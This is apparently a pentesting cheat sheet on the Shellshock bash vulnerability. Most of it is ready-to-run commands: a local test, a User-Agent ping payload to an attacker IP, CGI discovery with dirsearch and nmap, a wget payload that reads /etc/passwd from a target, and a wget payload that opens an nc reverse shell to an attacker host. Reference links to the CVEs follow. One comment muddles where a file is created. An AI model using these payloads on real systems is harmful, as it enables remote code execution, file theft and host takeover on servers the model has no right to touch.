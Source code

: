# Vulnerabilities

## Shellshock
##### Test for Shellshock Vulneratbility
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

# Create environment variable x of function () { :;};
# "echo vulnerable" is outside of the variable x funtion.
# If bash echoes "vulnerable," it is vulnerable.
# If it echoes "this is a test," it is not vulnerable.
```

##### Test for Shellshock Vulneratbility using User-Agent
```bash
User-Agent = () { :;}; ping -c 5 -p "Test String" <Attacker IP Address>
```

##### Test for Shellshock Vulneratbility using CGI
```bash
# Find *.cgi programs on target
./dirsearch.py -u http://<IP Address> -e cgi -r
# Assume returns /cgi-bin/login.cgi

nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <IP Address> -p 80
```

##### Attack Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo \"Content-Type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://<IP Address>/cgi-bin/login.cgi && cat login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
# It creates a local file, login.cgi, on the target, and cats the file.
```

##### Establish Reverse Shell with Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo; /bin/nc <Attacker IP Address> <Listening Port> -e /bin/sh" http://<IP Address>/cgi-bin/login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
```

### Shellshock References
[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[CVE-2014-6271](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271))

[CVE-2014-6277](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277)

[CVE-2014-6278](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6278)

[CVE-2014-7169](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7169)

[CVE-2014-7186](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186)

[CVE-2014-7187](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7187)

[nmap http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)

# Bash References
[Bash (Unix shell)](https://en.wikipedia.org/wiki/Bash_(Unix_shell))